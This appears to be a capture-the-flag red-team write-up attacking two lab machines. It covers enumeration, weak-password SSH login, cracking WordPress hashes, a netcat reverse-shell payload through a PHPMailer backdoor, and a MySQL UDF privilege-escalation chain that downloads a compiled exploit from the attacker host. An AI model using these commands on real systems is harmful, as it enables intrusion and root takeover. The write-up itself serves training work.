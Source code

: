 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sC -sV 192.168.1.110
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-17 11:24 PDT
Nmap scan report for raven.local (192.168.1.110)
Host is up (0.00073s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33174/tcp   status
|   100024  1          41697/udp   status
|   100024  1          43643/tcp6  status
|_  100024  1          46476/udp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH on Port 22 verison 6.7p1
  - HTTP Apache Server on Port 80  version 2.4.10  
  - RPC on Port 111 
  - SMBD on Port 139 version 3.x -4.x
  - SMBD on Port 445 version 4.2.14

The following vulnerabilities were identified on target 1:
- Target 1
  - Weak Passwords
    
   - Easy to crack and guess  
  
  - Exposed MYSQL credentials inside of file
  
  - User is able to run Python as Root 

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  -  flag1{b9bbcb33e11b80be759c4e844862482d} 
    - Used google inspect element to find the flag hidden in the code


  flag2.txt: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
  
  I used WPSCAN to Enumerate user Michael and Steven 
  
  Command:  `WPSCAN -url 192.168.1.110 --enumerate u`
  
  ![wp-scan](/Images/WP-scan.png)
   
   - Used  basic Brute force to SSH into Michael's user
   - Weak Password used (michael)
      
     Command:  `
      ssh michael@192.168.1.110
      `
      
    -found flag inside of `/var/www/html/ `
    -screenshot here
    
    
   -  flag3: flag3{afc01ab56b50591e7dccf93122770cd2}
   - Foound exposed mysql credentials inside of /var/www/html/wordpress/wp-config.php

![exposed sql server creds](/Images/sqlcreds.png)

    - mysql -u root -p
    - Found user password hashes after running:
      - select * from wp_users; 
      
![user password hashes](/Images/hashes.png)

    - cracked password hashes with john 
 
 ![john](Images/john.png)
 
    - Found flag3 after running
     select * from wp_posts;
  
  ![flag1-3](Images/flag31.png)
  
    
   - flag4:715dea6c055b9fe3337544932f2941ce}
   - logged into steven with password pink367 
  
   - ran sudo -l to see stevens permissions
   - We can run python as sudo so we can create shell as root with python
   - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
   - sudo python -c 'import pty; pty.spawn("/bin/sh")'
   - screen shot
     
     
  ## Target 2
  
  ### Enumeration
    
    - `nmap -sC -sV 192.168.1.115`
    
    - `nitko -C all -h 192.168.1.115` 
   
  ## The following vulnerabilities were identified on target 2:

   - Public facing web pages giving away system version and potential exploits
    
   - Easy to crack and guess  
   
   - Version is sensitive to backdoor exploit
  
  - Exposed MYSQL credentials inside of file
  
  - SQL is sensitive to UDF Dynamic Library Priveledge Escalation E-DB:1518 https://www.exploit-db.com/exploits/1518
  
  ### Exploitation
  
  #### flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
    
  First I enumerated directories with Gobuster 
  
  
  Then I found a vendor directory and found a flag inside ofthe PATH file
 
- found information on version
- screenshot 
- found information on cves 
- Based on information provided I decided to use the backdoor exploit on the phpmailer 
- gained reverse shell on netcat 
- used a url encoded reverse shell
  - cmd=nc%20<192.168.1.115>%204444%20-e%20/bin/bash
  - screenshot 
  - -traversed directories and found flag2
    
### flag 3 flag3{a0f568aa9de277887f37730d71520d9b}
  -find /var/www -type f -iname 'flag*'
  -this leads us to a png file 
  - we setup a simple http server insid the directory of the flagto download to the file to my attacking machine
  - python -m SimpleHTTPServer 8080 
  - wget http://192.168.1.115/flag3 

 ### Priviledge Escalation
   - `flag4{df2bc5e951d91581467bb9a2a8ff4425}`
   - `signed into mysql with credentials from last activity`
   - `enumerated the mysql for version number`
   - after running linenum and outside research I foudn the machine is vulnerable to udf dynamic library exploit 1518.c
   - `searchsploit –m 1518.c`
   - `gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.c -lc`
   - setup python simple server to transfer 1518.so payload to ovictim machine
      - `Python3 -m http.server`
      - 'wget http://192.168.1.90:8000/1518.so'
      -  transfer into /tmp directory
   - `mysql -u root -p`
   - `use mysql; create table poo(line blob);`
   - `insert into poo values(load_file('/tmp/1518.so'));`
   - `select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';`
   - `create function do_system returns integer soname '1518.so';`
   - `select do_system('chmod u+s /usr/bin/find');`
   - now we head back to the /tmp directory
   - ```touch raj
     find raj –exec "whoami" \;
     find raj –exec "/bin/sh" \;
     cd /root
      ls
     cat flag4.txt`
   
